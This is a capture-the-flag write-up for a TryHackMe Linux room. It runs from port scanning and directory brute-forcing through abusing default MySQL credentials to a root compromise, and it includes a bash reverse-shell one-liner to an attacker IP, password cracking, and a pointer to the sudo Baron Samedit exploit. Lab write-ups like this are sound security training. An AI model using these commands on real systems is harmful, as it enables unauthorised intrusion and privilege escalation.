


# _TRYHACKME (Linuzz CTF)_


IP
```
10.10.xx.xxx
```

ENUMERATION: <br />
- RUSTSCAN <br>
  rustscan -r 1-65535 -a IP -u 5000 -- -A <br />
  [Result](rustscan.md) <br />
- GOBUSTER: <br />
    gobuster dir -u http://IP/ -w ~/DirBuster-Lists/directory-list-2.3-small.txt -x txt,php,html
- FUFF: <br />
    ffuf -w ~/tools/SecLists/Discovery/Web-Content/raft-small.txt -u http://IP/FUZZ -e .html,.txt,.php,

<br />

Interesting port from rustscan: <br>
- 80
- 3306
- 4444
- 5000

Interesting endpoint from gobuster and ffuf : <br>
- /whatever
- /hidden
- /instructions.txt

<br />

> Rabbit hole <br />

IP:4444 (nc IP 4444)<br />
IP:5000 (nc IP 5000 )<br>
IP:80/hidden <br>

<br >

> ## Intended Way
<br>

> /instruction.txt <br>

It seems to have default username and password for MySQL: <br>

```
rXXXXXXX:CXX_sXXXXX_cXX_cXXXXXXX
```

> /whatever <br>

None of the command is executed since,
```
Command Executer Mode :0
```

It seems like we need to change the value 0 to make it work

```
mysql -h IP -u rXXXXXXX -P 3306 -p
(enter password)
show databases;

use DATABASENAME;

UPDATE TABLENAME SET run=1;
```

Finally it works <br>



<br />

To get a shell
```
bash -c "bash -i >& /dev/tcp/10.8.89.248/4444 0>&1"
```

> LINPEAS ENUMERATION <br>

Interesting output
```
localhost:8080
```


```
curl -d "password=[ADAMS'S_PASSOWRD]&cmdtype=ls" -X POST localhost:8080
```
doesn't seems to work with adam's password <br>

> Manual Enumeration <br />

We can find a [python file](bcrypt_encryption.py) located at

```
/proct/pass/bcrypt_encryption.py
```

Modifying the python file a bit to get adam's password:

[pass.py](pass.py)
or
[pass2.py](pass2.py)

read more about [bcrypt library](https://github.com/pyca/bcrypt/) to know how it works.

<br />

we can get adam's password from the above script (Since the password is too far down in rockyou.txt wordlist, it takes some time)
```
xxxxxx_xxxxxxxxxxxx
```

Enumerating in /home/adam we get the password for mason.
<br>

mason's password (Place name without space)
```
xxxxxxxxxxxx
```

> Privilege Escalation <br >

As we got password for mason now we can url to the localhost:8080: <br>

```
curl -d "password=[MASON'S_PASSOWRD]&cmdtype=passwd" -X POST localhost:8080
```

<br />

> ## Unintended way to get root from www-data <br />

<br >

If we run [linux-explioit-suggester](https://github.com/mzet-/linux-exploit-suggester) gives us an obvious way to get root.

```
./exploit_suggester
baron samedit
```
<br />

[TRYHACKME box on the above exploit](https://tryhackme.com/room/sudovulnssamedit)